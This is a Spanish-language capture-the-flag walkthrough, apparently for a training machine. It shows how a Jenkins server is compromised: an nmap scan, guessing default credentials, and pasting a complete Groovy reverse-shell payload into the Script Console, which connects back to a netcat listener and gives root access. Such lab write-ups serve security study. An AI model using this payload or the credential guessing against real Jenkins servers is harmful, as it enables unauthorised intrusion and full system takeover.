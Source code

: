 Conceptos importantes:
- CVE --> Common Vulnerabilities and Exposures
- CIA --> Confidentiality, Integrity, Availability

1. **Escaneamos los puertos más comunes con Nmap con los scripts predeterminados y averiguando los servicios que corren.**
```bash
sudo nmap -sVC [target IP]
```
--> 8080 - open - http - Jetty 9.4.39.v20210325

2. **Entramos a la IP desde el navegador por el puerto 8080 y nos encontramos con un panel de login que pone "Welcome to Jenkins!".**
--> Jenkins es un servidor web

3. **Buscamos en Google cuáles son las credenciales por defecto del servidor Jenkins.**
Encontramos que el usuario predeterminado es `admin`. La contraseña se autorellena automáticamente.

4. **Probamos logins básicos por si pudiéramos entrar:**
--> admin admin
--> admin root
--> admin password
--> root root
--> root password --> Entramos con estas credenciales

5. **Vemos un panel donde aparece un Groovy Script en la página principal. Vemos también que usa Jenkins 2.289.1, así que vamos a buscar en Google si hay algún exploit para esta versión de Jenkins.**
Encontramos muchos exploits y varios de ellos son con un script escrito en Groovy. Vamos a usar un exploit para esta versión de Jenkins que nos crea una Reverse Shell con la máquina víctima.

6. **Vamos a pegar el exploit para obtener la Reverse Shell en la Script Console de Jenkins**
Para ello, entramos en el panel de la web, le damos a Manage Jenkins, Buscamos la opción Script Console y tendremos un cuadro de texto donde escribir scripts en Groovy y ejecutarlos, por lo que pegaremos el exploit que hemos encontrado:
```groovy
String host="[My IP]";
int port=1234;
String cmd="/bin/bash";Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```
--> No se ejecuta todavía, solo lo pegamos.

7. **Nos ponemos en escucha con NetCat por el puerto 1234 (el que se indica en el script) para recibir la Reverse Shell**
Las opciones son:
- `-n` --> Para que no tenga en cuenta los nombres DNS, solo las IPs.
- `-l` --> Para que se ponga en modo listener.
- `-v` --> Verbose.
- `-p` --> Para indicar el puerto.
```bash
nc -nlvp 1234
```

8. **Volvemos a la web y le damos a Run para ejecutar el Groovy Script**
--> Recibimos la conexión Reverse Shell a través de NetCat.
--> **MACHINE PWNED!**

9. **Además somos `root`. Entramos en el directorio `/root` y encontramos la flag.**

